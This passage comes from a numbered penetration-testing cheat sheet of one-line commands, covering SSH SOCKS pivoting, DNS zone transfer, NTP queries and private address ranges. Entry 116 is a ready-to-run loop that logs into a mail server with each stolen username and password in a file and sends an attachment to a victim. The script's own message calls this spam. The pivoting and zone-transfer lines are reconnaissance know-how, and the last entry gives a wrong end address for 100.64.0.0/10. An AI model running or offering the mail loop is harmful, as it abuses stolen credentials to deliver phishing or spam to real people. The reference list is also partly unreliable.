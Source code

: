 http://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html
__________
### 115. set up a socks proxy, proxycahins may help also
```
ssh -D [port] [user]@[ip]
```
**- linux,networking,pivoting**
#### References:

https://www.cyberciti.biz/faq/set-up-ssh-tunneling-on-a-linux-unix-bsd-server-to-bypass-nat/
__________
### 116. Loop around 'dets' (user:pass) and send an email through an authenticated mailserver with an attached file whos contents is stored in 'email'
```
for i in `cat dets`; do echo "Sening Spam from $i"; mailx -s "Report Attached" -r "`echo $i | awk -F @ '{print $1}'`<`echo $i | awk -F : '{print $1}'`>" -a report.pdf -S smtp-auth=login -S smtp-auth-user="`echo $i | awk -F : '{print $1}'`" -S smtp-auth-password="` echo $i | awk -F : '{print $2}'`" -S ssl-verify=ignore -v -S smtp="10.11.1.229" [victim] < email;echo _________; done
```
**- networking,loop,interesting**
#### References:

http://www.binarytides.com/linux-mailx-command/
__________
### 117. Query the remote ntp time
```
sntp [ip]
```
**- linux,networking**
#### References:

http://doc.ntp.org/4.2.6/sntp.html
__________
### 118. Ask for a zone transfer
```
host -t axfr [ip]
```
**- linux,networking,enumeration**
#### References:

https://tools.ietf.org/html/rfc5936
__________
### 119. Internal Address ranges, 100 is for routing
```
10.0.0.0/8 (10.255.255.255) | 172.16.0.0/12 (172.31.255.255) | 192.168.0.0/16 | 100.64.0.0/10 (10.127.255.255)
```
**- networking,reference**
#### References:
